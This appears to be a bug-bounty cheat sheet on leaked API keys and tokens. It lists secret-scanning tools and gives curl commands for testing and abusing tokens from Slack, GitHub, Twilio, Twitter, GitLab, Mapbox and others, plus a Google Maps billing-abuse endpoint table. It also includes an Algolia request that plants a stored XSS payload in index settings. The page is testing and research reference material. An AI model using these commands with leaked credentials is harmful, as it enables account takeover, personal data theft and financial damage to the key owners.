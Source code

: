 # API Key and Token Leaks

> The API key is a unique identifier that is used to authenticate requests associated with your project. Some developers might hardcode them or leave it on public shares.

## Summary

- [Tools](#tools)
- [Methodology](#exploit)
    - [Google Maps](#google-maps)
    - [Algolia](#algolia)
    - [Slack API Token](#slack-api-token)
    - [Facebook Access Token](#facebook-access-token)
    - [Github client id and client secret](#github-client-id-and-client-secret)
    - [Twilio Account_sid and Auth Token](#twilio-account_sid-and-auth-token)
    - [Twitter API Secret](#twitter-api-secret)
    - [Twitter Bearer Token](#twitter-bearer-token)
    - [Gitlab Personal Access Token](#gitlab-personal-access-token)
    - [HockeyApp API Token](#hockeyapp-api-token)
    - [Mapbox API Token](#mapbox-api-token)


## Tools

- [momenbasel/KeyFinder](https://github.com/momenbasel/KeyFinder) - is a tool that let you find keys while surfing the web
- [streaak/keyhacks](https://github.com/streaak/keyhacks) - is a repository which shows quick ways in which API keys leaked by a bug bounty program can be checked to see if they're valid
- [trufflesecurity/truffleHog](https://github.com/trufflesecurity/truffleHog) - Find credentials all over the place
    ```ps1
    ## Scan a Github Organization
    docker run --rm -it -v "$PWD:/pwd" trufflesecurity/trufflehog:latest github --org=trufflesecurity
    
    ## Scan a GitHub Repository, its Issues and Pull Requests
    docker run --rm -it -v "$PWD:/pwd" trufflesecurity/trufflehog:latest github --repo https://github.com/trufflesecurity/test_keys --issue-comments --pr-comments
   
    ## Scan a Docker image for verified secrets
    docker run --rm -it -v "$PWD:/pwd" trufflesecurity/trufflehog:latest docker --image trufflesecurity/secrets
    ```
- [aquasecurity/trivy](https://github.com/aquasecurity/trivy) - General purpose vulnerability and misconfiguration scanner which also searches for API keys/secrets
- [projectdiscovery/nuclei-templates](https://github.com/projectdiscovery/nuclei-templates) - Use these templates to test an API token against many API service endpoints
    ```powershell
    nuclei -t token-spray/ -var token=token_list.txt
    ```
- [blacklanternsecurity/badsecrets](https://github.com/blacklanternsecurity/badsecrets) - A library for detecting known or weak secrets on across many platforms
    ```ps1
    python examples/cli.py --url http://example.com/contains_bad_secret.html
    python examples/cli.py eyJhbGciOiJIUzI1NiJ9.eyJJc3N1ZXIiOiJJc3N1ZXIiLCJVc2VybmFtZSI6IkJhZFNlY3JldHMiLCJleHAiOjE1OTMxMzM0ODMsImlhdCI6MTQ2NjkwMzA4M30.ovqRikAo_0kKJ0GVrAwQlezymxrLGjcEiW_s3UJMMCo
    python ./badsecrets/examples/blacklist3r.py --viewstate /wEPDwUJODExMDE5NzY5ZGQMKS6jehX5HkJgXxrPh09vumNTKQ== --generator EDD8C9AE
    python ./badsecrets/examples/telerik_knownkey.py --url http://vulnerablesite/Telerik.Web.UI.DialogHandler.aspx
    python ./badsecrets/examples/symfony_knownkey.py --url https://localhost/
    ```
- [mazen160/secrets-patterns-db](https://github.com/mazen160/secrets-patterns-db) - Secrets Patterns DB: The largest open-source Database for detecting secrets, API keys, passwords, tokens, and more.
- [d0ge/sign-saboteur](https://github.com/d0ge/sign-saboteur) - SignSaboteur is a Burp Suite extension for editing, signing, verifying various signed web tokens


## Methodology

The following commands can be used to takeover accounts or extract personal information from the API using the leaked token.

### Google Maps 

* [ozguralp/gmapsapiscanner/](https://github.com/ozguralp/gmapsapiscanner/) - Google Maps API Scanner

|  Name                 |  Endpoint |
| --------------------- | --------- |
|  Static Maps          | [/maps/api/staticmap?key=KEY](https://maps.googleapis.com/maps/api/staticmap?center=45%2C10&zoom=7&size=400x400&key=KEY) |
|  Streetview           | [/maps/api/streetview?key=KEY](https://maps.googleapis.com/maps/api/streetview?size=400x400&location=40.720032,-73.988354&fov=90&heading=235&pitch=10&key=KEY) |
|  Embed                | [/maps/embed/v1/place?key=KEY](https://www.google.com/maps/embed/v1/place?q=place_id:ChIJyX7muQw8tokR2Vf5WBBk1iQ&key=KEY) |
|  Directions           | [/maps/api/directions/json?key=KEY](https://maps.googleapis.com/maps/api/directions/json?origin=Disneyland&destination=Universal+Studios+Hollywood4&key=KEY) |
|  Geocoding            | [/maps/api/geocode/json?key=KEY](https://maps.googleapis.com/maps/api/geocode/json?latlng=40,30&key=KEY) |
|  Distance Matrix      | [/maps/api/distancematrix/json?key=KEY](https://maps.googleapis.com/maps/api/distancematrix/json?units=imperial&origins=40.6655101,-73.89188969999998&destinations=40.6905615%2C-73.9976592%7C40.6905615%2C-73.9976592%7C40.6905615%2C-73.9976592%7C40.6905615%2C-73.9976592%7C40.6905615%2C-73.9976592%7C40.6905615%2C-73.9976592%7C40.659569%2C-73.933783%7C40.729029%2C-73.851524%7C40.6860072%2C-73.6334271%7C40.598566%2C-73.7527626%7C40.659569%2C-73.933783%7C40.729029%2C-73.851524%7C40.6860072%2C-73.6334271%7C40.598566%2C-73.7527626&key=KEY) |
|  Find Place from Text | [/maps/api/place/findplacefromtext/json?key=KEY](https://maps.googleapis.com/maps/api/place/findplacefromtext/json?input=Museum%20of%20Contemporary%20Art%20Australia&inputtype=textquery&fields=photos,formatted_address,name,rating,opening_hours,geometry&key=KEY) |
|  Autocomplete         | [/maps/api/place/autocomplete/json?key=KEY](https://maps.googleapis.com/maps/api/place/autocomplete/json?input=Bingh&types=%28cities%29&key=KEY) |
|  Elevation            | [/maps/api/elevation/json?key=KEY](https://maps.googleapis.com/maps/api/elevation/json?locations=39.7391536,-104.9847034&key=KEY)   |
|  Timezone             | [/maps/api/timezone/json?key=KEY](https://maps.googleapis.com/maps/api/timezone/json?location=39.6034810,-119.6822510&timestamp=1331161200&key=KEY) |
|  Roads                | [roads.googleapis.com/v1/nearestRoads?key=KEY](https://roads.googleapis.com/v1/nearestRoads?points=60.170880,24.942795&key=KEY) |
|  Geolocate            | [www.googleapis.com/geolocation/v1/geolocate?key=KEY](https://www.googleapis.com/geolocation/v1/geolocate?key=KEY) |


**Impact**:

* Consuming the company's monthly quota or can over-bill with unauthorized usage of this service and do financial damage to the company
* Conduct a denial of service attack specific to the service if any limitation of maximum bill control settings exist in the Google account


### Algolia 

```powershell
curl --request PUT \
  --url https://<application-id>-1.algolianet.com/1/indexes/<example-index>/settings \
  --header 'content-type: application/json' \
  --header 'x-algolia-api-key: <example-key>' \
  --header 'x-algolia-application-id: <example-application-id>' \
  --data '{"highlightPreTag": "<script>alert(1);</script>"}'
```


### Slack API Token

```powershell
curl -sX POST "https://slack.com/api/auth.test?token=xoxp-TOKEN_HERE&pretty=1"
```


### Facebook Access Token

```powershell
curl https://developers.facebook.com/tools/debug/accesstoken/?access_token=ACCESS_TOKEN_HERE&version=v3.2
```


### Github client id and client secret

```powershell
curl 'https://api.github.com/users/whatever?client_id=xxxx&client_secret=yyyy'
```


### Twilio Account_sid and Auth token

```powershell
curl -X GET 'https://api.twilio.com/2010-04-01/Accounts.json' -u ACCOUNT_SID:AUTH_TOKEN
```


### Twitter API Secret

```powershell
curl -u 'API key:API secret key' --data 'grant_type=client_credentials' 'https://api.twitter.com/oauth2/token'
```


### Twitter Bearer Token

```powershell
curl --request GET --url https://api.twitter.com/1.1/account_activity/all/subscriptions/count.json --header 'authorization: Bearer TOKEN'
```


### Gitlab Personal Access Token

```powershell
curl "https://gitlab.example.com/api/v4/projects?private_token=<your_access_token>"
```


### HockeyApp API Token

```powershell
curl -H "X-HockeyAppToken: ad136912c642076b0d1f32ba161f1846b2c" https://rink.hockeyapp.net/api/2/apps/2021bdf2671ab09174c1de5ad147ea2ba4
```


### Mapbox API Token

A Mapbox API Token is a JSON Web Token (JWT). If the header of the JWT is `sk`, jackpot. If it's `pk` or `tk`, it's not worth your time.

* Check token validity: 
    ```ps1
    curl "https://api.mapbox.com/tokens/v2?access_token=YOUR_MAPBOX_ACCESS_TOKEN"
    ```
    
* Get list of all tokens associated with an account (only works if the token is a Secret Token (sk), and has the appropriate scope)
    ```ps1
    curl "https://api.mapbox.com/tokens/v2/MAPBOX_USERNAME_HERE?access_token=YOUR_MAPBOX_ACCESS_TOKEN"
    ```


## References

* [Finding Hidden API Keys & How to Use Them - Sumit Jain - August 24, 2019](https://web.archive.org/web/20191012175520/https://medium.com/@sumitcfe/finding-hidden-api-keys-how-to-use-them-11b1e5d0f01d)
* [Introducing SignSaboteur: Forge Signed Web Tokens with Ease - Zakhar Fedotkin - May 22, 2024](https://portswigger.net/research/introducing-signsaboteur-forge-signed-web-tokens-with-ease)
* [Private API Key Leakage Due to Lack of Access Control - yox - August 8, 2018](https://hackerone.com/reports/376060)
* [Saying Goodbye to My Favorite 5 Minute P1 - Allyson O'Malley - January 6, 2020](https://www.allysonomalley.com/2020/01/06/saying-goodbye-to-my-favorite-5-minute-p1/)